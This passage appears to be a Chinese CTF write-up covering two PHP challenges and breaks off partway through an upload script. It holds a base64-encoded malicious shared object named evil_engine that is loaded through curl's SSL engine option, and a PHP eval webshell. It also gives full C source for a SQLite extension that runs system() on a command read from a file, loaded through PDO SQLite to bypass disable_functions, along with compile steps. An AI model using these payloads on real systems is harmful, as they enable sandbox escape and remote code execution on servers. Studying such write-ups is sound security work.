AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABjYXQgL2V0Yy9wYXNzd2QAARsDOyQAAAADAAAAEPD%2F%2F0AAAAAw8P%2F%2FaAAAAPnw%2F%2F+AAAAAAAAAABQAAAAAAAAAAXpSAAF4EAEbDAcIkAEAACQAAAAcAAAAyO%2F%2F%2FyAAAAAADhBGDhhKDwt3CIAAPxo7KjMkIgAAAAAUAAAARAAAAMDv%2F%2F8IAAAAAAAAAAAAAAAcAAAAXAAAAHHw%2F%2F8WAAAAAEEOEIYCQw0GUQwHCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABEAAAAAAAAJEQAAAAAAAMAQAAAAAAAAAQAAAAAAAABcAAAAAAAAAAwAAAAAAAAAABAAAAAAAAANAAAAAAAAACARAAAAAAAAGQAAAAAAAADwPQAAAAAAABsAAAAAAAAAEAAAAAAAAAAaAAAAAAAAAAA+AAAAAAAAHAAAAAAAAAAIAAAAAAAAAPX+%2F28AAAAAYAIAAAAAAAAFAAAAAAAAABADAAAAAAAABgAAAAAAAACAAgAAAAAAAAoAAAAAAAAAcgAAAAAAAAALAAAAAAAAABgAAAAAAAAAAwAAAAAAAADoPwAAAAAAAAIAAAAAAAAAGAAAAAAAAAAUAAAAAAAAAAcAAAAAAAAAFwAAAAAAAABwBAAAAAAAAAcAAAAAAAAAsAMAAAAAAAAIAAAAAAAAAMAAAAAAAAAACQAAAAAAAAAYAAAAAAAAAP7%2F%2F28AAAAAkAMAAAAAAAD%2F%2F%2F9vAAAAAAEAAAAAAAAA8P%2F%2FbwAAAACCAwAAAAAAAPn%2F%2F28AAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACD4AAAAAAAAAAAAAAAAAAAAAAAAAAAAANhAAAAAAAAAIQAAAAAAAAEdDQzogKERlYmlhbiAxNC4yLjAtMTkpIDE0LjIuMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAAAQA8f8AAAAAAAAAAAAAAAAAAAAADAAAAAIADABQEAAAAAAAAAAAAAAAAAAADgAAAAIADACAEAAAAAAAAAAAAAAAAAAAIQAAAAIADADAEAAAAAAAAAAAAAAAAAAANwAAAAEAFwAQQAAAAAAAAAEAAAAAAAAAQwAAAAEAEgAAPgAAAAAAAAAAAAAAAAAAagAAAAIADAAAEQAAAAAAAAAAAAAAAAAAdgAAAAEAEQDwPQAAAAAAAAAAAAAAAAAAlQAAAAQA8f8AAAAAAAAAAAAAAAAAAAAAowAAAAIADAAJEQAAAAAAABYAAAAAAAAAAQAAAAQA8f8AAAAAAAAAAAAAAAAAAAAArAAAAAEAEACwIAAAAAAAAAAAAAAAAAAAAAAAAAQA8f8AAAAAAAAAAAAAAAAAAAAAugAAAAIADQAgEQAAAAAAAAAAAAAAAAAAwAAAAAEAFgAIQAAAAAAAAAAAAAAAAAAAzQAAAAEAEwAIPgAAAAAAAAAAAAAAAAAA1gAAAAAADwAQIAAAAAAAAAAAAAAAAAAA6QAAAAEAFgAQQAAAAAAAAAAAAAAAAAAA9QAAAAEAFQDoPwAAAAAAAAAAAAAAAAAApgAAAAIACQAAEAAAAAAAAAAAAAAAAAAACwEAACAAAAAAAAAAAAAAAAAAAAAAAAAAJwEAABIAAAAAAAAAAAAAAAAAAAAAAAAAOgEAACAAAAAAAAAAAAAAAAAAAAAAAAAASQEAACAAAAAAAAAAAAAAAAAAAAAAAAAAYwEAACIAAAAAAAAAAAAAAAAAAAAAAAAAAGNydHN0dWZmLmMAZGVyZWdpc3Rlcl90bV9jbG9uZXMAX19kb19nbG9iYWxfZHRvcnNfYXV4AGNvbXBsZXRlZC4wAF9fZG9fZ2xvYmFsX2R0b3JzX2F1eF9maW5pX2FycmF5X2VudHJ5AGZyYW1lX2R1bW15AF9fZnJhbWVfZHVtbXlfaW5pdF9hcnJheV9lbnRyeQBldmlsX2VuZ2luZS5jAHJjZV9pbml0AF9fRlJBTUVfRU5EX18AX2ZpbmkAX19kc29faGFuZGxlAF9EWU5BTUlDAF9fR05VX0VIX0ZSQU1FX0hEUgBfX1RNQ19FTkRfXwBfR0xPQkFMX09GRlNFVF9UQUJMRV8AX0lUTV9kZXJlZ2lzdGVyVE1DbG9uZVRhYmxlAHN5c3RlbUBHTElCQ18yLjIuNQBfX2dtb25fc3RhcnRfXwBfSVRNX3JlZ2lzdGVyVE1DbG9uZVRhYmxlAF9fY3hhX2ZpbmFsaXplQEdMSUJDXzIuMi41AAAuc3ltdGFiAC5zdHJ0YWIALnNoc3RydGFiAC5ub3RlLmdudS5idWlsZC1pZAAuZ251Lmhhc2gALmR5bnN5bQAuZHluc3RyAC5nbnUudmVyc2lvbgAuZ251LnZlcnNpb25fcgAucmVsYS5keW4ALnJlbGEucGx0AC5pbml0AC5wbHQuZ290AC50ZXh0AC5maW5pAC5yb2RhdGEALmVoX2ZyYW1lX2hkcgAuZWhfZnJhbWUALmluaXRfYXJyYXkALmZpbmlfYXJyYXkALmR5bmFtaWMALmdvdC5wbHQALmRhdGEALmJzcwAuY29tbWVudAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABsAAAAHAAAAAgAAAAAAAAA4AgAAAAAAADgCAAAAAAAAJAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAuAAAA9v%2F%2FbwIAAAAAAAAAYAIAAAAAAABgAgAAAAAAABwAAAAAAAAAAwAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAOAAAAAsAAAACAAAAAAAAAIACAAAAAAAAgAIAAAAAAACQAAAAAAAAAAQAAAABAAAACAAAAAAAAAAYAAAAAAAAAEAAAAADAAAAAgAAAAAAAAAQAwAAAAAAABADAAAAAAAAcgAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAABIAAAA%2F%2F%2F%2FbwIAAAAAAAAAggMAAAAAAACCAwAAAAAAAAwAAAAAAAAAAwAAAAAAAAACAAAAAAAAAAIAAAAAAAAAVQAAAP7%2F%2F28CAAAAAAAAAJADAAAAAAAAkAMAAAAAAAAgAAAAAAAAAAQAAAABAAAACAAAAAAAAAAAAAAAAAAAAGQAAAAEAAAAAgAAAAAAAACwAwAAAAAAALADAAAAAAAAwAAAAAAAAAADAAAAAAAAAAgAAAAAAAAAGAAAAAAAAABuAAAABAAAAEIAAAAAAAAAcAQAAAAAAABwBAAAAAAAABgAAAAAAAAAAwAAABUAAAAIAAAAAAAAABgAAAAAAAAAeAAAAAEAAAAGAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAXAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAHMAAAABAAAABgAAAAAAAAAgEAAAAAAAACAQAAAAAAAAIAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAEAAAAAAAAAB+AAAAAQAAAAYAAAAAAAAAQBAAAAAAAABAEAAAAAAAAAgAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAAhwAAAAEAAAAGAAAAAAAAAFAQAAAAAAAAUBAAAAAAAADPAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAI0AAAABAAAABgAAAAAAAAAgEQAAAAAAACARAAAAAAAACQAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAACTAAAAAQAAAAIAAAAAAAAAACAAAAAAAAAAIAAAAAAAABAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAmwAAAAEAAAACAAAAAAAAABAgAAAAAAAAECAAAAAAAAAkAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAKkAAAABAAAAAgAAAAAAAAA4IAAAAAAAADggAAAAAAAAfAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAACzAAAADgAAAAMAAAAAAAAA8D0AAAAAAADwLQAAAAAAABAAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAAvwAAAA8AAAADAAAAAAAAAAA+AAAAAAAAAC4AAAAAAAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAMsAAAAGAAAAAwAAAAAAAAAIPgAAAAAAAAguAAAAAAAAwAEAAAAAAAAEAAAAAAAAAAgAAAAAAAAAEAAAAAAAAACCAAAAAQAAAAMAAAAAAAAAyD8AAAAAAADILwAAAAAAACAAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAA1AAAAAEAAAADAAAAAAAAAOg%2FAAAAAAAA6C8AAAAAAAAgAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAN0AAAABAAAAAwAAAAAAAAAIQAAAAAAAAAgwAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAADjAAAACAAAAAMAAAAAAAAAEEAAAAAAAAAQMAAAAAAAAAgAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAA6AAAAAEAAAAwAAAAAAAAAAAAAAAAAAAAEDAAAAAAAAAfAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAEAAAACAAAAAAAAAAAAAAAAAAAAAAAAADAwAAAAAAAAcAIAAAAAAAAaAAAAFQAAAAgAAAAAAAAAGAAAAAAAAAAJAAAAAwAAAAAAAAAAAAAAAAAAAAAAAACgMgAAAAAAAH4BAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAEQAAAAMAAAAAAAAAAAAAAAAAAAAAAAAAHjQAAAAAAADxAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAA==')));
```

执行

```plain text
curl --engine `pwd`/evil_engine.so https://example.com
```

```bash
$ch = curl_init('http://localhost');
curl_setopt($ch, CURLOPT_SSLENGINE, "/var/www/html/evil_engine.so");
$data = curl_exec($ch);
$err = curl_error($ch);
$info = curl_getinfo($ch);
var_dump($info['http_code'] ?? null, strlen($data), $err ?: 'OK');
echo "\\n====\\n";
echo $data;
```

***


## kidding  Reverge|| XXX || SOLVED

```php
<?php
highlight_file(__FILE__);
@eval($_POST['so_ez!k1ddi&g?']);

//so_ez!k1ddi%26g?=phpinfo%28%29%3B
```

题目过滤了 disable\_functions 和 open\_basedir&#x20;

```php
proc_open,pcntl_waitpid,pcntl_wait,dl,ini_restore,mb_send_mail,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,pcntl_alarm,pcntl_sigtimedwait,ini_set
```

* 所有常见的命令执行函数都被ban了(system, exec, shell\_exec, popen等)

* putenv被禁用,导致很多传统bypass方案失效

* UAF等常见方法也被阻止


但是这里题目中还存在sqlite3 扩展，


* `SQLite3::loadExtension()` - 需要库在 `sqlite3.extension_dir` 配置的目录中

* `PDO\SQLite::loadExtension()` - **没有目录限制**，可以加载任意路径的 `.so` 文件


```cpp
#include <sqlite3ext.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

SQLITE_EXTENSION_INIT1

int sqlite3_exploit_init(
    sqlite3 *db,
    char **pzErrMsg,
    const sqlite3_api_routines *pApi
) {
    SQLITE_EXTENSION_INIT2(pApi);

    // 从 /tmp/1.txt 读取命令
    const char *command_file_path = "/tmp/1.txt";
    char command_buffer[512] = {0};
    FILE *file_handle;

    file_handle = fopen(command_file_path, "r");
    if (file_handle == NULL) {
        return SQLITE_OK;
    }

    // 读取并执行命令
    if (fgets(command_buffer, sizeof(command_buffer), file_handle) != NULL) {
        command_buffer[strcspn(command_buffer, "\r\n")] = 0;
        if (strlen(command_buffer) > 0) {
            system(command_buffer);  // 在 .so 中执行系统命令
        }
    }
    fclose(file_handle);
    return SQLITE_OK;
}

```


* SQLite 扩展加载时会自动调用 `sqlite3_<扩展名>_init` 函数

* 在这个初始化函数中调用 `system()` 执行命令

* 因为是在 `.so` 编译后的代码中调用，不受 PHP `disable_functions` 限制

### **攻击流程**


#### **编译 .so 文件**

```plain text
gcc -shared -fPIC -o exploit.so rec3.c -lsqlite3
```

生成的 ELF 文件结构：

```plain text
ELF Header
Program Headers
Section Headers
    .text       → 包含 sqlite3_exploit_init() 的机器码
    .dynsym     → 动态符号表（包含 sqlite3_exploit_init）
    .dynstr     → 符号名称字符串
    .plt        → 过程链接表（调用 libc 函数）
    .got        → 全局偏移表
```

使用 `nm` 查看符号：

```plain text
$ nm exploit.so | grep init
0000000000001149 T sqlite3_exploit_init  # T 表示在 .text 段，可被外部调用
```

***

#### **上传 .so 文件**

```plain text
#!/usr/bin/env python3
"""
读取so文件并通过POST发送cmd参数
用法: python3 post_file.py <target_url> <so_file> [output_path]
"""

import requests
import sys
import base64

if len(sys.argv) < 3:
    print("用法: python3 post_file.py <target_url> <so_file> [output_path]")
